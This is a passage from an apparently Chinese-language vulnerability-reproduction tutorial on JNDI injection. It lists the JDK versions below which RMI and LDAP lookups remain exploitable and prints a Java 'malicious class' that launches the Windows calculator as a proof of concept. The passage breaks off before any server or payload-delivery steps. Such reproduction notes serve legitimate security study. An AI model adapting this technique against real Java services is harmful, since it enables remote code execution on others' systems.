 - 这次我们使用windows开发环境进行测试  
  
- 其次JNDI注入只在低版本JAVA中适用（小于以下版本可用）  
  
<table><thead><tr style="box-sizing: border-box;"><th style="box-sizing: border-box;"><span cid="n1906" mdtype="table_cell" style="box-sizing: border-box;"></span></th><th style="box-sizing: border-box;"><span cid="n1907" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">JDK6</span></span></span></span></th><th style="box-sizing: border-box;"><span cid="n1908" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">JDK7</span></span></span></span></th><th style="box-sizing: border-box;"><span cid="n1909" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">JDK8</span></span></span></span></th><th style="box-sizing: border-box;"><span cid="n1910" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">JDK11</span></span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n1912" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">RMI不可用</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1913" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">6u132</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1914" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">7u122</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1915" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">8u113</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1916" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">无</span></span></span></span></td></tr><tr style="box-sizing: border-box;"><td style="box-sizing: border-box;"><span cid="n1918" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">LDAP不可用</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1919" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">6u221</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1920" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">7u201</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1921" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">8u119</span></span></span></span></td><td style="box-sizing: border-box;"><span cid="n1922" mdtype="table_cell" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf=""><span textstyle="" style="font-size: 16px;">11.0.1</span></span></span></span></td></tr></tbody></table>- 本次我们不再通过命令回显的方式进行测试，而是通过直接在windows中弹出计算器进行测试  
  
#### 漏洞复现(V-4.2)  
  
先编译要执行的恶意类****  
  
**javac Calc.java**  

```
public class Calc{
    public Calc(){
        try{
            Runtime.getRuntime().exec(&#34;calc&#34;);
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        public static void main(String[] argv){
            Calc c = new Calc();
        }
}
```
